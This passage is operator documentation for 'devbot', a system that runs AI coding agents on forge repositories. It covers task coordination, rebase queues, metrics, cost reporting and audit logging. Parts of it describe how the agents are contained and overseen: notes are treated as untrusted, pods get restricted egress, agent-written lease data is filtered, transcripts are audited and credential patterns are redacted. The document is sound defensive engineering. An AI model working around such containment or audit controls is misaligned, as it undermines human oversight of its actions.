Concurrent tasks, in one repo or across repos, coordinate through devbot and the forge, never
directly: job pods still reach only what [Egress](#egress) allows. How it
works is in [architecture.md](architecture.md#coordination-between-tasks);
what an operator sees:

- **Every implement and review run is told what else is in flight** in its
  repo: the other open devbot tasks and open PRs, with their state, base,
  description and changed files, those overlapping the task first with their
  diffs. An open PR that isn't a task's, from someone who can't direct
  devbot, shows only its number, title and changed files. Building the list costs each run a search per state label, a PR
  list, and a comment read and PR read per open task, as the implementer or
  reviewer bot; a re-query mid-run costs the same plus a fetch. At most 40
  tasks and PRs are listed.
- **Agents have one tool for it**, `devbot coord`, run in the agent
  container and answered by the harness through the shared volume:
  `list`, `show TASK`, `note TASK TEXT` and `notes`, where `TASK` is `#N` in
  the job's repo or a full ref in another. It needs no MCP server, no
  network path and no credential in the agent container.
- **Notes** are comments on the receiving task's issue, posted by the bot
  of the receiving repo's provider and attributed to the sending task (by
  its full ref when it is of another repo). The limits are
  fixed: 2,000 bytes a note, 5 notes a run, and 5 a day from one task to
  another (counted from the receiving issue, so they hold across runs and a
  Redis wipe). A running agent gets a note within about 30 seconds of it
  being posted, the next time it asks, and before its result is taken; one
  that isn't running gets it in its next run's context. Agents read notes as
  untrusted information, and devbot acts on nothing in them.
- **Waits** hold a task until another merges: someone who
  [can direct devbot](#who-can-direct-devbot) comments `/wait #N` on the
  issue (`/wait none` to end it), or calls `wait_task` (MCP,
  `POST /api/task/wait`, `devbot wait REF '#N'`); the implementer can ask
  for one too. Two tasks of one repo must go into the same base, and a
  cycle, through any repos, is refused. A waiting task shows `waiting_on` in `task_status`, emits
  `task.waiting`, and `task.released` when the other merges, is cancelled,
  closes or stops at `needs-human`; the release comment says which. A merge
  or close releases the tasks waiting on it at once, not at the next
  reconcile pass. A held task with an approved PR waits at
  `devbot/approved` and takes no turn in the
  [rebase queue](#rebasing-approved-prs); once released it is rebased onto
  the other's merge first, unless the other merged into a different branch
  (one of the two was retargeted), when it goes on as it is.
- **Across repos:** a note or a wait can name a task of another repo, on
  any provider the install has, by its full ref (`/wait gitea:acme/lib#12`,
  `devbot coord note gitea:acme/lib#12 TEXT`), when whoever stands behind it
  may direct devbot on both repos: the person commenting or calling (a
  login counts on its own forge only), or, for the implementer, its task's
  requester. When the other task merges into its own base the waiting one
  goes on as it is, with no rebase. Its merge finds the waiters in other
  repos through a Redis index that each reconcile pass rebuilds, so after a
  Redis wipe the first pass puts it back.
- **Release gates:** a wait on a task of another repo can also wait for that
  work to be published, `/wait gitea:acme/lib#12 until tagged` (or `until
  tagged v*`, for tags matching a glob): past its merge the task stays held,
  `waiting_for: tag` in `task_status`, until a tag of that repo contains the
  merged commit, and the release names the tag. devbot reads the repo's
  newest tags and the forge's compare API on every reconcile pass, so a tag
  made by a person or a release workflow is seen within
  `reconcile_interval` without any webhook; a tag's push webhook releases
  it at once. See [Release gates](architecture.md#release-gates).
- **Building against an unmerged dependency:** a gated wait with `, build
  against` runs the waiting task while the other has a PR, the harness
  fetching that PR's head with the implementer's credential for the other
  repo and handing it to the model as plain files under `.devbot/deps/`.
  The other repo is one devbot is enabled on, so its implementer can read
  it. See [Building against an unmerged
  dependency](architecture.md#building-against-an-unmerged-dependency).
- **Parent tasks:** a [parent task](connectors.md#parent-tasks)
  (`devbot/parent`) groups the child tasks of one change across repos. A
  child's run is also told of its siblings, those of other repos first, by
  full ref: their state, PR and the files the PR changes, which the harness
  fetches from the forge apart from the workspace, at one blobless fetch per
  sibling with an open PR, as the run's own bot. Each evaluation of a parent
  reads every child's issue, comments and PR, and a child that moves
  evaluates its parent at once; reconcile evaluates every open parent too.

## Rebasing approved PRs

devbot rebases an approved PR that is behind its base, or conflicts with it,
only when that pays for the rebase and the re-review it costs. A repo can opt
back into rebasing every approved PR whenever its base moves with `rebase:
eager` in its `.devbot.yaml`, or every repo without a file through
`repos.defaults` ([`rebase`](devbot-yaml.md#keys)).

- **Automerge off**: the PR waits at `devbot/approved` for a person, behind or
  not. Its status (`task_status`, the web UI's task page) notes "behind
  `main`" or "conflicts with `main`". The approval comment says so too when it
  is already behind, and when the forge's rules only merge an up-to-date branch
  (GitHub's strict required checks; on Gitea, "block merge if the PR is
  outdated", which only shows to a reviewer bot with admin access), it says
  the PR needs a rebase before it can merge and how to ask for one.
- **Automerge on** (the repo's `automerge`, or `devbot/automerge` on the
  task): a simple merge queue per base branch. Approved PRs that are behind
  join it in approval order. The first holds the base's turn: it is rebased,
  re-reviewed and, once approved, merged straight away. Then the turn passes to
  the next, which serve evaluates at once rather than at the next reconcile.
  The rest wait at `devbot/approved`, "queued behind #N". A task that drops
  out (stops at `devbot/needs-human`, `devbot/needs-info` or
  `devbot/needs-approval`, is closed or cancelled) loses its place and its turn, the next time a task behind it is
  evaluated. A PR whose base hasn't moved merges at once, without queueing;
  one that a merge leaves behind while it waits for the merge lock joins the
  queue then. A PR a person's change request holds (see
  [the merge gate](devbot-yaml.md#the-merge-gate)) isn't merging itself, so it
  waits as with automerge off.

To ask for a rebase, someone who [can direct devbot](#who-can-direct-devbot)
adds `devbot/rebase` to the issue, comments `/rebase` on it, or calls `rebase`
(MCP, `POST /api/task/rebase`, `devbot rebase REF`). It happens once the PR
is approved and green, ahead of any queue, and devbot then takes the label
off. A request from anyone else is ignored; a label from them is taken off
with a comment saying why.

A rebase devbot starts, for a request, a turn or `rebase: eager`, uses no
review round when it turns out clean (its push left the diff as it was), and
counts towards `max_rebase_rounds` instead.

The queue and its turns live in Redis, keyed by repo and base branch, and the
turn has no expiry. Any serve replica evaluates tasks, not only the
[leader](#high-availability), so several share them: joining the queue and
taking the turn are atomic, and merges stay serialized by the per-repo merge
lock. After Redis is wiped, tasks re-join as reconcile evaluates them. Before
a task takes a free turn it checks the forge for a rebase already in flight on
the same base, which keeps the turn, and for older approvals still queued,
which go first; so a wipe doesn't start a second rebase.

## Observability

`/metrics` on serve's `metrics_addr` (`:9090`), a listener of its own: the
metrics name repos, and the connector listener may be public. The chart
exposes it as the pod's `metrics` port, not on the Service, and Prometheus
scrapes it through the pod's `prometheus.io/*` annotations.
Job pods are short-lived, so their counters are kept in Redis and served here.

| Metric | Labels | |
|---|---|---|
| `devbot_queue_depth` | `queue` (implement, review, plan, delayed) | jobs waiting |
| `devbot_leases_active` | `kind` | jobs running |
| `devbot_ratelimit_hold_until_seconds` | | end of the usage-limit hold (0 = none) |
| `devbot_redis_used_memory_bytes`, `devbot_redis_maxmemory_bytes` | | Redis's `used_memory` and `maxmemory` (0 when unset). Past `maxmemory` the chart's Redis refuses writes, so sign-ins, OAuth and the queue start failing |
| `devbot_last_reconcile_seconds` | | when the last reconcile pass finished, on whichever replica led |
| `devbot_leader` | | 1 on the replica that holds the [leader lease](#high-availability), 0 on the others |
| `devbot_redis_up` | | 1 when this scrape could read Redis. At 0 the series kept in Redis (queues, leases, the hold, the last reconcile, Redis memory, PRs behind base, the forge quotas, kept webhook events and the `_total` counters jobs write) are left out, and this process's own (`devbot_leader`, webhook intake, forge requests, rate-limit waits and errors) are still served |
| `devbot_jobs_total` | `role`, `repo`, `outcome` | outcomes: `pr`, `question`, `cannot`, `wait` (the implementer asked to wait on another task), `error`, `ratelimited`, `cancelled`, `lease_lost` (another worker held the job's lease, or it couldn't be renewed before its TTL: the job stopped without a comment or a transition; see [lost leases](architecture.md#the-state-machine)), `approve`, `request_changes`, `stale`, `config` (a `.devbot.yaml` asked for agent settings the deployment doesn't allow), `services` (the run's [service containers](#service-containers) didn't start, or stopped), `capacity` (a review whose patches outside generated files were over `review_budget_kib`, so no model ran), `refused` (the forge refused the push), `protected` (the work touched a protected path), `held` (the work changed protected files a person may approve, and waits for their approval), `held-gone` (an approved change was no longer at its held ref) and `held-replaced` (the held ref no longer held the approved commit) |
| `devbot_held_approvals_total` | `repo`, `by` (`person`, `auto`) | held changes to [`approvable_paths`](devbot-yaml.md#changes-a-person-may-approve) approved: by a person (`devbot/approve`, `approve_task`), or by devbot itself because the risk read was clean ([`approval: auto_clean`](devbot-yaml.md#approving-without-a-person)) |
| `devbot_job_seconds_total` | `role`, `phase` (prepare, model, checks) | where job time goes |
| `devbot_agent_runs_total` | `harness`, `model`, `role`, `outcome` (`ok`, `rate_limited`, `auth`, `timeout`, `harness_error`, `model_error`) | model runs, one per run of the agent harness (a check retry is a run of its own) |
| `devbot_agent_run_seconds_total` | `harness`, `model`, `role`, then the [attribution labels](#cost-and-usage-reporting) | time spent in model runs |
| `devbot_agent_tokens_total` | `harness`, `model`, `role`, the attribution labels, `kind` (`input`, `output`, `cached_input`, `cache_write`, `reasoning`) | tokens the harness reported. A kind it doesn't report has no series |
| `devbot_agent_cost_usd_total` | `harness`, `model`, `role`, the attribution labels | cost in US dollars, for harnesses that report it |
| `devbot_agent_mcp_calls_total` | `harness`, `role`, `server` | MCP tool calls the runs made, by server (see [MCP metrics](#mcp-metrics)) |
| `devbot_job_duration_seconds` (histogram) | `role`, the attribution labels | how long each job ran, from taking it off the queue to finishing; buckets 1m, 5m, 10m, 20m, 30m, 1h, 2h. A job that finds its task no longer waiting isn't counted |
| `devbot_events_total` | `type` | events emitted |
| `devbot_evaluations_acted_total` | `source` (webhook, reconcile, job, api) | evaluations that changed something |
| `devbot_reconcile_actions_total` | `state` | reconcile repairs, by the state it found |
| `devbot_webhook_events_total` | `provider`, `kind`, `result` (accepted, duplicate, ignored, rejected, too_large, dropped) | webhook intake |
| `devbot_webhook_events_skipped_total` | `kind` (`item`, `pr`, `status`) | accepted webhook events dropped before any forge call because they can't concern devbot: no devbot label, branch, command or task PR, or a status on no task PR's head (see [Skipped webhooks](architecture.md#skipped-webhooks)) |
| `devbot_subscriber_failures_total` | `subscriber` | failed outbound deliveries, retried |
| `devbot_subscriber_rejected_total` | `subscriber` | events a subscriber refused with a `4xx` a retry won't change, given up (see [subscribers](#deployment-config-config)) |
| `devbot_authz_lookup_errors_total` | `repo`, `provider` | permission lookups that failed, usually because the implementer bot can't read permissions on that repo (see [Who can direct devbot](#who-can-direct-devbot)). Each one left someone unauthorized. |
| `devbot_protection_lookup_errors_total` | `repo`, `provider` | branch rule lookups that failed at the merge gate (see [Branch protection and rulesets](#branch-protection-and-rulesets)). The gate went on to the merge without them, so only the forge's refusal, if any, said what blocked it. |
| `devbot_search_errors_total` | `provider` | reconcile searches that couldn't read everything (discovery failures), such as a GitHub App installation whose search fails, or a refresh of the GitHub inventory that failed (counted once, and the last inventory used). The rest were still reconciled; the pass logs the error. |
| `devbot_prs_behind_base` | `repo` | approved PRs waiting behind their base: at `devbot/approved` for a person, or queued for their turn to be [rebased](#rebasing-approved-prs). A task stops counting when no evaluation has seen it waiting for three reconcile intervals |
| `devbot_rebases_started_total` | `repo`, `trigger` (`queue`, `asked`, `eager`) | rebase rounds devbot started on approved PRs: a turn in the rebase queue, a person's request, or `rebase: eager` |
| `devbot_check_reruns_total` | `repo`, `provider` | re-runs devbot started of [cancelled checks](#cancelled-checks) |
| `devbot_branches_deleted_total` | `repo` | `devbot/*` branches devbot deleted after their PR closed, or as leftovers of attempts that never opened one (see [Branch cleanup](forge.md#branch-cleanup)) |
| `devbot_docker_detection_errors_total` | `repo` | jobs queued without a Docker daemon because [Docker detection](#docker) couldn't tell whether the repo's tests need one: its tree couldn't be listed or a manifest couldn't be read (see [Scale limits](#scale-limits)) |
| `devbot_forge_ratelimit_waits_total` | `provider`, `kind` (primary, secondary) | calls serve held back for a forge's rate limit. Job pods wait too, but their waits aren't counted here |
| `devbot_forge_ratelimit_wait_seconds_total` | `provider`, `kind` | time those waits took |
| `devbot_forge_ratelimit_errors_total` | `provider`, `kind` (`primary`, `secondary`, `low_quota`) | calls serve gave up for a rate limit rather than wait: the limit's reset too far off, too many retries, or (`low_quota`) low-priority calls deferred below `providers[].low_quota_percent` (see [GitHub rate limits](#github-rate-limits)). Job pods' aren't counted here |
| `devbot_forge_requests_total` | `provider`, `bucket` (`installation <id>`, `app <id>`, or `user` for every person's token together), `method`, `endpoint` (a template: `/repos/{owner}/{repo}/issues/{}/comments`; a name, number, SHA, branch or path is `{}`), `status` (`2xx`, `304`, `3xx`, `4xx`, `5xx`, `error` for no answer) | GitHub calls serve made. Job pods' aren't counted here; their quota use shows in the gauges below |
| `devbot_forge_ratelimit_remaining`, `devbot_forge_ratelimit_limit`, `devbot_forge_ratelimit_reset_seconds` | `provider`, `bucket`, `resource` (`core`, `search`, `graphql`) | what GitHub last said of each credential bucket's primary limit, to serve or a job pod: calls left, the limit, and when it resets (Unix seconds). People's own tokens are left out. A series stays at its last value until the bucket is used again, for up to two hours |
| `devbot_webhook_requeue_total` | `outcome` (`requeued`, `deferred`, `coalesced`, `dropped`) | webhook events a rate limit put off: kept for after the reset, deferred for a low quota, folded into one already kept about the same thing, or dropped after five tries (see [Rate-limited events](architecture.md#rate-limited-events)) |
| `devbot_webhook_events_kept` | | webhook events kept now, waiting for a rate limit's reset |
| `devbot_reconcile_deferred_total` | `provider` | reconcile searches deferred for a low quota; the first pass after the reset makes up for them |

devbot counts the `devbot_agent_*` metrics itself, from what each harness
reports, so they read the same whichever harness ran. Claude Code's own
telemetry (tokens, cost, sessions) is exported by the agent as well, to
whatever `agentEnv` OTEL settings point at, carrying `devbot.role`,
`devbot.repo` and anything in `DEVBOT_OTEL_ATTRS`. There's no issue number
on either on purpose, because it would become a Prometheus label. Per-issue
token counts are in each PR comment and each run's [audit record](#audit-logging)
instead, and the task is on its job pods' labels ([Cost and usage reporting](#cost-and-usage-reporting)).

**Suggested alerts.** devbot's state is on the forge, so none of these mean
work is lost; they mean work has stopped moving. Aggregate across pods,
because series from a replaced pod linger for a few minutes:

| Alert | PromQL | For |
|---|---|---|
| serve down | `max(up{app_kubernetes_io_name="devbot",app_kubernetes_io_component="serve"}) or vector(0)` < 1 | 5m |
| reconcile stalled | `time() - max(devbot_last_reconcile_seconds)` > 1200 | 10m |
| no leader | `sum(devbot_leader) or vector(0)` < 1 | 2m |
| jobs queued, none running | `sum(max by (queue) (devbot_queue_depth{queue=~"implement\|review"})) > 0 and on() sum(max by (kind) (devbot_leases_active)) == 0` | 15m |
| long usage-limit hold | `max(devbot_ratelimit_hold_until_seconds) - time()` > 7200 | - |
| implement failures | `sum(increase(devbot_jobs_total{role="implement",outcome="error"}[6h]))` > 2 | - |
| webhooks rejected | `sum(increase(devbot_webhook_events_total{result="rejected"}[1h]))` > 0 | - |
| Redis nearly full | `max(devbot_redis_used_memory_bytes) / max(devbot_redis_maxmemory_bytes)` > 0.8 | 10m |
| permission lookups failing | `sum by (repo) (increase(devbot_authz_lookup_errors_total[1h]))` > 0 | - |
| branch rule lookups failing | `sum by (repo) (increase(devbot_protection_lookup_errors_total[1h]))` > 0 | - |
| reconcile searches failing | `sum by (provider) (increase(devbot_search_errors_total[1h]))` > 0 | - |
| Claude token age | `(time() - max(kube_secret_created{secret="devbot-claude"})) / 86400` > 335 (setup-tokens last about a year) | - |

## Cost and usage reporting

Every implement and review job is attributed to its repo, task, role and
requester, and to the repo's static [`labels`](devbot-yaml.md#keys)
(`repos.defaults.labels` for repos without a `.devbot.yaml`). The requester is
whoever filed the task through a connector (their principal), else the
`requester` handle it was filed with, else the issue's author.

| Where | What |
|---|---|
| job pod labels | `devbot.io/provider`, `devbot.io/owner`, `devbot.io/repo` (the name), `devbot.io/task` (the issue number), `devbot.io/role`, `devbot.io/requester`, each made a valid label value (other characters become `-`; one over 63 characters is cut and ends in a hash of the whole), and `labels.devbot.io/<key>` for each static label |
| job pod annotations | the same `devbot.io/*` keys with their values as they are, plus `devbot.io/origin` (the task's origin) and `devbot.io/pr` |
| metrics | `devbot_agent_cost_usd_total`, `devbot_agent_tokens_total`, `devbot_agent_run_seconds_total` and `devbot_job_duration_seconds` carry the labels in `metrics.cost_labels` (default `repo` and `owner`) and `label_<key>` for each key in `metrics.static_labels` |
| logs | the harness's log records for the job carry `repo`, `role`, `requester` and `labels` |
| the PR | the usage line on the implementer's PR comment and the reviewer's review: `Model usage (implement of gitea:acme/app#7, requested by alice, team=payments): ...` |

Metric labels are bounded on purpose: each value of each label is another
series of every one of these metrics. The issue number is never a metric
label; it is on the pods and the PR.

### Labelling job pods

KEDA creates a job pod before anyone knows which job it will take, and a
ScaledJob can't label pods per job. So each harness records its pod's name
(`DEVBOT_POD_NAME`) and the labels and annotations for its job on its lease,
as soon as it has read the task, and the serve [leader](#high-availability)
puts them on the pod: every 10 seconds it reads the live leases and patches
the metadata of each pod that doesn't carry them yet. A pod is labelled
within about 10 seconds of starting its job, and keeps the labels until it is
deleted. A pod that finds nothing to do isn't labelled.

This keeps the job pods, which run the model, without any Kubernetes API
access; only serve has it, through the Role the chart gives its own
ServiceAccount (`podLabels.enabled`): `get` and `patch` on pods in devbot's
namespace, held to devbot's own metadata on its job pods by an admission
policy (see [Security](#security)). serve also checks before every patch that the pod is one of this release's job pods of the
lease's kind (`pod_labels.instance`), and only ever sends a merge patch of
labels and annotations. Anything that reaches Redis can write a lease, the
agent in a job pod included, so serve sends only keys under `devbot.io/` and
`labels.devbot.io/`, label values that are valid as such and annotation
values of at most 1 KiB, and logs the rest as left off: a lease can't touch a
pod's Job selector labels, its component or any other metadata.

### PromQL

Spend by repo over the last 30 days, and over the dashboard's range in Grafana
(set it to "This month", or "Previous month", for spend per calendar month):

```promql
sum by (repo) (increase(devbot_agent_cost_usd_total[30d]))
sum by (repo) (increase(devbot_agent_cost_usd_total[$__range]))
```

| Question | PromQL |
|---|---|
| spend by owner or org, last 30 days | `sum by (owner) (increase(devbot_agent_cost_usd_total[30d]))` |
| spend by role and model for one repo | `sum by (role, model) (increase(devbot_agent_cost_usd_total{repo="gitea:acme/app"}[30d]))` |
| tokens by repo and kind | `sum by (repo, kind) (increase(devbot_agent_tokens_total[30d]))` |
| job hours by repo (pod runtime) | `sum by (repo) (increase(devbot_job_duration_seconds_sum[30d])) / 3600` |
| model hours by repo | `sum by (repo) (increase(devbot_agent_run_seconds_total[30d])) / 3600` |
| jobs by role and repo | `sum by (role, repo) (increase(devbot_job_duration_seconds_count[30d]))` |
| 90th percentile implement time by repo | `histogram_quantile(0.9, sum by (repo, le) (rate(devbot_job_duration_seconds_bucket{role="implement"}[7d])))` |
| spend by requester (`requester` in `metrics.cost_labels`) | `sum by (requester) (increase(devbot_agent_cost_usd_total[30d]))` |
| spend by team (`team` in `metrics.static_labels`) | `sum by (label_team) (increase(devbot_agent_cost_usd_total[30d]))` |

Cost is only counted for harnesses that report it (Claude Code, not on
Bedrock); for the others, price the tokens. The counters live in Redis, so a
Redis wipe resets them, which `increase` takes in its stride.

### Kubecost and OpenCost

Kubecost and OpenCost allocate a pod's compute to its labels, and read them in
Prometheus form: `devbot.io/repo` is `devbot_io_repo`, `labels.devbot.io/team`
is `labels_devbot_io_team`. To split devbot's compute by repo or team,
aggregate its namespace's allocations by label:

```bash
# OpenCost: the last 30 days by owner and repo
curl -G http://opencost.opencost:9003/allocation/compute \
  --data-urlencode window=30d \
  --data-urlencode 'filter=namespace:"devbot"' \
  --data-urlencode aggregate=label:devbot_io_owner,label:devbot_io_repo
```

In Kubecost's Allocations view, filter on the namespace and aggregate by the
label `devbot_io_repo` (or `labels_devbot_io_team`, `devbot_io_requester`,
...); its API takes the same `aggregate=label:...` at `/model/allocation`. The
model's spend isn't compute, so it isn't in either: add it from
`devbot_agent_cost_usd_total`, which carries the same repo and owner.

To join pod usage to the labels in Prometheus yourself, kube-state-metrics
must export them, which it only does for labels it is told to:
`--metric-labels-allowlist=pods=[devbot.io/owner,devbot.io/repo,devbot.io/role,devbot.io/requester]`.
Then, for example, CPU core-hours by repo over 30 days:

```promql
sum by (label_devbot_io_repo) (
  sum_over_time((
    sum by (namespace, pod) (rate(container_cpu_usage_seconds_total{namespace="devbot",container!=""}[5m]))
    * on (namespace, pod) group_left (label_devbot_io_repo) kube_pod_labels{namespace="devbot",label_devbot_io_repo!=""}
  )[30d:5m])
) * 5 / 60
```

## Audit logging

devbot writes an audit record for every action it takes or refuses, one JSON
object per line, on **stdout** of the process that took it: serve, the
`reconcile` pass, or the job pod's `harness` container. Its operational logs
go to stderr. devbot keeps no audit store and sends records nowhere: the
platform collects container stdout, and routing, retention and access
control are its job. Every record has `"log_type":"audit"`, so a pipeline
that reads both streams together can still route records apart.

The agent sidecar (`agent` container) writes no audit records: everything
the model's side does reaches the forge through the harness, which records it.

### Record schema

```json
{"time":"2026-10-17T14:02:11.52Z","log_type":"audit","component":"harness","event":"forge.pr.open","outcome":"ok",
 "actor":"devbot-impl","actor_kind":"implementer","origin":"slack:C042/1729","repo":"gitea:acme/webapp",
 "task":"gitea:acme/webapp#12","pr":31,"job_id":"devbot-implement-8x2kq-7d9vz","attempt":1,
 "detail":{"base":"main","head":"devbot/12-add-a-thing","title":"Add a thing"}}
```

| Field | Always | Meaning |
|---|---|---|
| `time` | yes | When devbot recorded it, UTC, RFC 3339. |
| `log_type` | yes | Always `audit`. |
| `component` | yes | The process: `serve`, `reconcile` or `harness`. |
| `event` | yes | What happened; the list is below. |
| `outcome` | yes | `ok`; `refused` (devbot or the forge said no); `denied` (a person declined, on a consent page); `error` (it failed). An `agent.run` has its run's outcome instead: `ok`, `rate_limited`, `auth`, `timeout`, `harness_error` or `model_error`. |
| `actor` | yes | Who did it, as the forge sees it: the bot's login for the bots' writes, the person's login for writes made with their own token, or who was refused. Empty when nobody is known yet (a token request from an unknown client). |
| `actor_kind` | yes | `implementer` or `reviewer` (a bot), `user` (a person), `agent` (a model run), `devbot` (a decision of devbot's own, with no `actor`). |
| `principal` | | The connector caller the action was for: `anonymous_principal` (with its `X-Devbot-Client`) in auth mode `none`, or the signed-in login. A bot's write on someone's behalf has both: `actor` is the bot, `principal` the caller. |
| `login` | | The caller's forge login, when signed in (auth mode `oauth`). |
| `origin` | | The task's `origin`, as it was filed, once the process has read the task's routing comment for its own work: devbot reads no comments just to fill it in, so a record made before that read, or in a process that never needed the comments, goes without. |
| `repo`, `task`, `pr` | | The repo (`provider:owner/name`), the task (`provider:owner/name#n`) and the PR number. |
| `job_id` | | The job pod that did it. |
| `request_id` | | The HTTP request: the proxy's `X-Request-Id` when it sent a sane one (up to 64 of `A-Za-z0-9._:-`), else one devbot made up. serve echoes it in the response's `X-Request-Id`. Work a webhook triggered has the delivery ID. |
| `attempt`, `round` | | The implement attempt, or the review round. |
| `error` | | Why it failed or was refused, when it did. |
| `detail` | | The event's own fields, below. |

A field that doesn't apply is left out.

The tasks' state machine runs in serve, in `devbot reconcile` and in the
harness after each job, so the records of what it does ("any" below) come
from whichever ran it. Every `auth.*` record also has the sign-in forge's
`provider` in `detail`.

### Events

| Event | Written by | `detail` |
|---|---|---|
| `forge.issue.create`, `forge.issue.close`, `forge.issue.edit` | any (create, close), serve (edit) | `title`, `labels` (create); `title` (edit: an [`edit_task`](connectors.md#editing-a-task)) |
| `forge.comment.create`, `forge.comment.update` | any (create), serve (update: a [parent task](architecture.md#parent-tasks)'s checklist) | `bytes`, and `marker` when it carries a devbot marker. Not the text. |
| `forge.labels.set` | any | `add`, `remove` |
| `forge.labels.ensure` | any | `labels`: the devbot labels created if missing |
| `forge.pr.open`, `forge.pr.update` | harness | `head` and `base` (open), `title` |
| `forge.pr.retarget` | serve | `base`: a [retarget](connectors.md#retargeting) moved the PR onto it |
| `forge.pr.review` | harness | `verdict`, `sha` |
| `forge.pr.merge` | any | `sha`, `method`. `refused` when the forge won't merge as things stand or the head moved. |
| `forge.checks.rerun` | any | `sha`, `checks`: the [cancelled checks](#cancelled-checks) whose runs it re-ran |
| `forge.status.set` | harness | `sha`, `context`, `state`: the `devbot/integration` commit status an [integration check](architecture.md#integration-checks) posted on a child task's head |
| `forge.attachment.upload`, `forge.attachment.release` | harness (upload), any (release) | `name`, `bytes` (upload) |
| `forge.branch.delete` | serve | `branch`, and `already_gone` when the forge had deleted it first, which is still `ok`. See [Deleting merged branches](#deleting-merged-branches). |
| `git.push` | harness | `branch`, `sha`, `force`. `refused` when the forge rejected the push. |
| `task.transition` | any | `from`, `to` (the state labels; `""` for none), `type` (the [event](connectors.md) it emitted, if any), `summary` |
| `docker.detected` | any | `kind` (`implement` or `review`), `base`, `file`, `why`: a job queued with a [Docker daemon](#docker) because the task's base branch has `file` (a testcontainers dependency, or a Compose file), its repo leaving `docker` unset. One per job queued. |
| `model.set` | any (`/model`), serve (the rest) | `role` (`implement` or `review`), `model` (`""` when cleared) and `from` (the task's own before): a task's [own model](forge.md#choosing-the-model) changed, by `actor`, through a `/model` comment or `edit_task`. A task filed with one records it in its routing comment instead. |
| `authz.refused` | any (`start`, `model`), serve (the rest) | `action` (`start`: a `devbot/ready` from someone who can't direct devbot; `carry`: one on a PR from them, or on a PR devbot can't carry (see [forge.md](forge.md#handing-devbot-an-existing-pr)); `rebase`: a `devbot/rebase` from them, or a `rebase` connector call; `model`: a `/model` comment from them; `file_task`, `answer`, `cancel`, `retry`, `retarget`, `edit_task`, `wait`, `read`: a connector call; `METHOD /path` or `ui /path`: a request without a valid devbot credential, or to the UI with no `anonymous_principal` in mode `none`; `webhook`: a delivery that failed its signature check, recorded at most once a minute per forge with `suppressed_since_last`, how many weren't, though `devbot_webhook_events_total` counts each), `reason` |
| `auth.client.register` | serve | `client_id`, `client_name`, `grant_types`, `auth_method`, `redirect_uris`; a refusal's `reason` |
| `auth.sign_in` | serve | `client_id`, `provider`, `device`, `ui`; when it didn't happen, `reason` |
| `auth.device.authorize` | serve | `client_id`: a device sign-in started |
| `auth.token.issue`, `auth.token.refresh` | serve | `client_id`, `grant_type`; a refusal's `reason` (the OAuth error code) |
| `auth.revoke` | serve | `client_id`, `device`, `ui`: a sign-in ended, by revocation, sign-out, a declined consent, a reused token or the forge rejecting the person's token |
| `agent.run` | harness | `role`, `harness`, `model`, `bedrock_region`, `resumed` (a check retry continuing the run), `start`, `end`, `duration_seconds`, `turns`, `tokens` (`input`, `output`, `cached_input`, `cache_write`, `reasoning`), `cost_usd` (for harnesses that report it), `error_class`, `timed_out`, how the CLI's process ended (`exit_code`, `signal`, `oom_suspected`, `memory_limit` when OOM-killed, `stderr_tail`, the last 4 KiB of its stderr), `agent_error` when the agent failed the run itself, `agent_container` (`reason`, `exit_code`, `message`, `finished_at`) when the agent stopped answering and serve could read how its container ended ([A model run fails](#a-model-run-fails)), with transcripts on, `transcript_lines`, `transcript_truncated` and `stdout_tail` (the last 4 KiB of the CLI's stream), and for a role with [MCP servers](#mcp-servers), `mcp_servers`, `mcp_calls` (tool calls by server) and `mcp_unavailable` (servers that didn't connect) |
| `agent.transcript` | harness | `role`, `harness`, `seq` (from 1, per run), `line`: one line of the CLI's event stream, as JSON. Only with [`audit.transcript`](#deployment-config-config); written just before the run's `agent.run`. |

Each action is one record: a transition that moves a label is a
`forge.labels.set` (the write) and a `task.transition` (what it meant). An
evaluation that finds nothing to do writes nothing. Reads aren't audited.

### Secrets

No record holds a token, key or secret. devbot never puts one in a record
in the first place: comments and PR bodies are recorded by size, not text,
and OAuth records name the client and grant, never the tokens or codes.
Every string in a record, transcript lines included, is also redacted before
it is written: each credential the process loaded from the environment (the
forge tokens and App keys, webhook and subscriber secrets, the OAuth client
secret and auth keys, the Redis and Sentinel passwords), the git credential of the job, and
anything shaped like a credential (devbot's own tokens, `ghp_`/`ghs_`/
`github_pat_` and other GitHub tokens, `sk-` API keys, AWS access key IDs,
PEM private keys, JWTs, `Bearer`/`Basic` values, `password=`-style pairs,
passwords in URLs) becomes `[REDACTED]`. Redaction is a backstop for what a
model prints, not a guarantee about it: a secret in an unknown shape in a
repo the model reads would be in its transcript, which is why transcripts
are off by default.

### Shipping it

Collect the `serve` container and the job pods' `harness` container, and
keep the lines whose `log_type` is `audit`. All of devbot's pods carry
`app.kubernetes.io/name: devbot`. The examples assume the release and namespace are both `devbot`.

**Vector**, from Kubernetes to Loki:

```yaml
sources:
  devbot:
    type: kubernetes_logs
    extra_label_selector: app.kubernetes.io/name=devbot
transforms:
  audit:
    type: remap
    inputs: [devbot]
    source: |
      if .stream != "stdout" { abort }
      . = object!(parse_json!(.message))
      if .log_type != "audit" { abort }
sinks:
  loki:
    type: loki
    inputs: [audit]
    endpoint: http://loki.monitoring:3100
    encoding: { codec: json }
    labels: { job: devbot-audit, component: "{{ component }}", event: "{{ event }}" }
```

Keep Loki labels to the low-cardinality fields (`component`, `event`,
`outcome`); query the rest with `| json`, e.g.
`{job="devbot-audit"} | json | task="gitea:acme/webapp#12"`.

**Fluent Bit**, from the node's container logs:

```ini
[INPUT]
    Name    tail
    Path    /var/log/containers/*devbot*_serve-*.log,/var/log/containers/*devbot*_harness-*.log
    Parser  cri
    Tag     devbot.*

[FILTER]
    Name    parser
    Match   devbot.*
    Key_Name message
    Parser  json

[FILTER]
    Name    grep
    Match   devbot.*
    Regex   log_type ^audit$

[OUTPUT]
    Name    loki
    Match   devbot.*
    Host    loki.monitoring
    Labels  job=devbot-audit
```

**CloudWatch Logs** on EKS: with Fluent Bit (the `aws-for-fluent-bit` or
CloudWatch Observability add-on), use the same `grep` filter and a
`cloudwatch_logs` output into a group of its own, which then carries its own
retention and IAM policy apart from the application logs:

```ini
[OUTPUT]
    Name               cloudwatch_logs
    Match              devbot.*
    region             eu-west-1
    log_group_name     /devbot/audit
    log_stream_prefix  devbot-
    auto_create_group  true
```

Then, in Logs Insights:
`fields time, event, actor, task, outcome | filter event = "forge.pr.merge" | sort time desc`.

## Troubleshooting

Problems with an install itself; the [Runbook](#runbook) has the ones that
come up running it.

| Symptom | Cause and fix |
|---|---|
| `helm install` fails with `no matches for kind "ScaledJob" in version "keda.sh/v1alpha1"` | KEDA isn't installed. Install KEDA 2.16 or later ([Prerequisites](#prerequisites)), then install devbot again. |
